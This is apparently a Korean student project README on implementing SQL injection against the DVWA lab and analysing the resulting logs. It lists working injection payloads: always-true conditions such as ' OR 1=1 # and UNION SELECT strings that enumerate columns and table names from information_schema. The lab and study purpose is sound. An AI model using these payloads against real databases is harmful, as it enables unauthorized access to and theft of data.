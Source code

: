 ##  SQL Injection 구현 및 log 분석
SQL injection: 주민서, 이종학

log 분석: 김현서, 허남정, 오성택

---
###  1. 조건문을 이용한 SQL Injection
이 유형의 payload는 WHERE절의 조건을 항상 참으로 만들어 조건을 우회하는 방법 입니다.
- ' OR 1=1 #
- ' OR TRUE #
- ' OR '1'='1' #
- ' OR '1'='1' LIMIT 1 #
- ' OR TRUE LIMIT 1 #
- ' OR 1=1 LIMIT 5 #

이런 payload는 다음과 같은 쿼리가 있다고 가정했을 때 사용합니다.

SELECT * FROM table WHERE id = 'sql_injection' AND pw = 'sql_injection’

WHERE절의 조건이 항상 참이 되므로 모든 행이 반환됩니다.

---
### 2. UNION SELECT
UNION은 두 개 이상의 SELECT문의 결과를 하나의 결과로 만들어줍니다. 이때 각 SELECT문은 같은 수의 컬럼을 가져야 하며, 각 열의 데이터 타입이 일치해야 합니다. 이러한 특성을 이용해 데이터베이스의 구조나 정보를 알아낼 수 있습니다. 사용된 payload를 확인해보면 컬럼의 길이, 테이블 이름, 컬럼의 데이터를 알아내는데 사용되었습니다.
- ' UNION SELECT 1 #
- ' UNION SELECT 1, 2 #
- ' UNION SELECT 1, 2, 3 #
- ' UNION SELECT 1, table_name FROM information_schema.tables #
- ' UNION SELECT table_name,2 FROM information_schema.tables #
- ' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='dvwa' #
- ' UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema='dvwa' #

위 예시의 쿼리문들을 이용해 컬럼의 개수 및 데이터베이스의 정보를 알아내는데 사용할 수 있습니다.
